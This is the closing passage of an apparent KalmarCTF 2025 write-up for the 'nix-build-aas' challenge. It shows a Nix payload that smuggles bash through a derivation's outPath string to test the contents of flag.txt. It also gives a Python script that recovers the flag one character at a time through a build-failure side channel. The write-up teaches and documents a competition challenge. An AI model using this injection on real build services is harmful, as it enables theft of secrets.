 However, recall that we can only see the last line of the log, so this just by itself won't
give us the flag.

## Side-channels

This is where side-channels come in!
Using the code-execution capabilities we just acquired, we can conditionally fail
the build, which is very much visible from the web app.
One example of this, is failing if the contents of `flag.txt` do not start with
a given string:

```nix
{
  type = "derivation";
  outPath = "\n[[ $(cat ${./flag.txt}) == kalmar{* ]]\n #";
}
```

This piece of bash code will succeed if the flag starts with `kalmar{`, allowing
us to retrieve the flag one character at a time with a simple Python script:

```py
from requests_toolbelt import sessions
import string

BASE_URL = "http://localhost:8080/" # change to remote
s = sessions.BaseUrlSession(base_url=BASE_URL)


def build_payload(flag_prefix):
    return f"""
    {{
        type = "derivation";
        outPath = "\n[[ $(cat ${{./flag.txt}}) == {flag_prefix}* ]]\n #";
    }}
    """


def test_prefix(flag_prefix):
    payload = build_payload(flag_prefix)
    res = s.post("/", data={"user_input": payload})
    return "cannot create symlink" in res.text


alphabet = string.ascii_letters + string.digits + "{}-_"
flag = "kalmar{"
while "}" not in flag:
    for letter in alphabet:
        if test_prefix(flag + letter):
            flag += letter
            print(flag)
            break
```


[reproducible-pwning]: /blog/kalmarctf-writeup-reproducible-pwning
[handout]: https://github.com/kalmarunionenctf/kalmarctf/tree/main/2025/misc/nix-build-aas
[ifd]: https://nix.dev/manual/nix/2.24/language/import-from-derivation
[scopedImport-undocumented]: https://github.com/NixOS/nix/issues/1450
[nix-underscore-builtins]: https://discourse.nixos.org/t/readfile-vs-builtins-readfile/12355/3
[overloading-ops]: https://github.com/NixOS/nix/issues/7290#issuecomment-1546846723
[fod]: https://nix.dev/manual/nix/2.24/language/advanced-attributes.html#adv-attr-outputHash
[isDerivation]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1250-L1282
[nixpkgs]: https://github.com/NixOS/nixpkgs
[derivation]: https://nix.dev/manual/nix/2.24/language/derivations.html
[toString]: https://nix.dev/manual/nix/2.24/language/builtins#builtins-toString
[mkDerivation-getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/make-derivation.nix#L346
[mkDerivation-PATH]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/setup.sh#L819
[getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1933-L1960
[getOutput]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1763-L1799
[hello-fetchurl]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/by-name/he/hello/package.nix#L16-L19
[fetchurl]: https://github.com/nixos/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/build-support/fetchurl/default.nix
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[Kalmarunionen]: https://www.kalmarunionen.dk/